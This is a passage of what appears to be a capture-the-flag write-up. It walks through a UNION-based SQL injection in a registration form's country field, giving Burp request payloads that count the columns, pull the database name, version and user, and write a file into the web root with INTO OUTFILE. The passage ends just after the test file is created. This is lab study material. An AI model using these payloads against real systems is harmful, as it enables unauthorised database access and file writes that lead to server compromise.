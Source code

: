 <br>

![Second try with different username and country](:/validation/6.png){:data-align="center"}
<br>

#### UNION based SQL injection
***
Let's try some UNION based SQL queries.
First let's determine the number of columns.


{% highlight Burp %}
username=utkc1&country=Albania' ORDER BY 1 #
{% endhighlight %}

<br>

We increment the number until we get an error message.

<br>

![error message in order by query](:/validation/7.png){:data-align="center"}
<br>

Got this error message for ORDER BY 2, it seems to have just one coulmn.
Now let's get the database name, version and user.

{% highlight Burp %}
username=utkc2&country=Algeria' UNION SELECT database() #
    registration
username=utkc2&country=Algeria' UNION SELECT version() #
    10.5.11-MariaDB-1
username=utkc2&country=Algeria' UNION SELECT user() #
    uhc@localhost
{% endhighlight %}

<br>

I enumerated the database bit further, but didn't find anything intresting.

### Gaining an Initial Foothold
***
Lets try uploading a file to the server.

{% highlight Burp %}
username=utkc2&country=Algeria' UNION SELECT "hello" into outfile '/var/www/html/hello.txt' #
{% endhighlight %}

<br>

![making a twst file with SQL injection query](:/validation/8.png){:data-align="center"}
<br>

This gave an error but it still worked when I checked the URL.

<br>
